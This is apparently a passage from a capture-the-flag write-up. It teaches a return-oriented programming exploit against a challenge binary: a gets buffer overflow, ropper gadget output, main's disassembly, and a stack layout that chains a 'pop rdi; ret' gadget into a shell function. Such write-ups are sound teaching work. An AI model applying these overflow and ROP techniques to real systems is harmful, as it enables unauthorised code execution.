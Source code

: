 the address `rbp-0x70` is moved into `rdi` to be passed to `gets`.

But how do we set `rdi` to whatever we want? Luckily, the binary is full of random instructions we can jump to, known as gadgets. We can use the ropper tool to list all useful gadgets.

```shell
➜ ropper -f chal
Gadgets
=======
[stuff]
0x0000000000401267: pop rbp; pop r14; pop r15; ret; 
0x0000000000401149: pop rbp; ret;  
0x000000000040126b: pop rdi; ret;  <--
0x0000000000401269: pop rsi; pop r15; ret;
[stuff]
```

Let's look at the gadget `pop rdi; ret;`. Before we find out how it helps us, we must understand what it does.

**`pop rdi;`**

[pop](https://www.felixcloutier.com/x86/pop): Loads the value from the top of stack into the destination specified (`rdi`) and **increments the stack pointer**. Remember that the `rbp` is the base (highest address) of the stack, `rip` > `rbp` > `rsp`. By incrementing `rsp`, `rsp` moves toward `rbp`.

**`ret;`**

`ret` pops the **value pointed to by `rsp`** into `rip` and increments `rsp`.

## Working through the attack

The bottom half of `main` is provided for reference:

```asm
0x00000000004011f6 <+89>:    lea    rax,[rbp-0x70]
0x00000000004011fa <+93>:    mov    rdi,rax
0x00000000004011fd <+96>:    call   0x401030 <puts@plt>
0x0000000000401202 <+101>:   mov    eax,0x0
0x0000000000401207 <+106>:   leave  
0x0000000000401208 <+107>:   ret
```

Let's say our stack looks like this at `main + 101`:

| Address              | Name          | Value                                  |
| -------------------- | ------------- | -------------------------------------- |
| `rbp+24`             | -             | Address of `shell`                     |
| `rbp+16`             | -             | 123456                                 |
| `rbp+8`              | `rip`         | Address of `pop rdi; ret;` gadget      |
| `rbp`                | `rbp`         | Address of `rbp` / any arbitrary value |
| `rbp-112` to `rbp-1` | `name` buffer | a 112 times                            |
| `rbp-112`            | `rsp`         | a                                      |
